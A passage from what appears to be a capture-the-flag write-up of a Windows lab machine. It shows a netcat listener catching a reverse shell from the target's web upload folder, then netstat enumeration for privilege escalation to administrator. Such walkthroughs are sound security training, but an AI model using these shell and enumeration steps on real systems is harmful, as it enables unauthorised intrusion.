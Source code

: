 At my window with a `nc` listener, I get a shell:

```

root@kali# rlwrap nc -lvnp 443                             
Ncat: Version 7.80 ( https://nmap.org/ncat ) 
Ncat: Listening on :::443                                                                 
Ncat: Listening on 0.0.0.0:443                                                            
Ncat: Connection from 10.10.10.198.                                                       
Ncat: Connection from 10.10.10.198:50577.    
Microsoft Windows [Version 10.0.17134.1550]  
(c) 2018 Microsoft Corporation. All rights reserved.                                      
                                                                                          
C:\xampp\htdocs\gym\upload>

```

Now I have a solid, persistent shell.

## Priv: shaun –> administrator

### Enumeration

#### Netstat

Checking the `netstat` shows two ports listening only on localhost. 3306 is MySQL, which makes sense for the PHP site and XAmpp stack. The other is 8888:

```

C:\>netstat -ano | findstr TCP | findstr ":0"
netstat -ano | findstr TCP | findstr ":0"
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       952
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5952
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       5772
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4140
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       512
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1032
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1532
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2196
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       684
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING       4
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
  TCP    [::]:135               [::]:0                 LISTENING       952
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       5772
  TCP    [::]:8080              [::]:0                 LISTENING       4140
  TCP    [::]:49664             [::]:0                 LISTENING       512
  TCP    [::]:49665             [::]:0                 LISTENING       1032
  TCP    [::]:49666             [::]:0                 LISTENING       1532
  TCP    [::]:49667             [::]:0                 LISTENING       2196
  TCP    [::]:49668             [::]:0                 LISTENING       660
  TCP    [::]:49669             [::]:0                 LISTENING       684

```
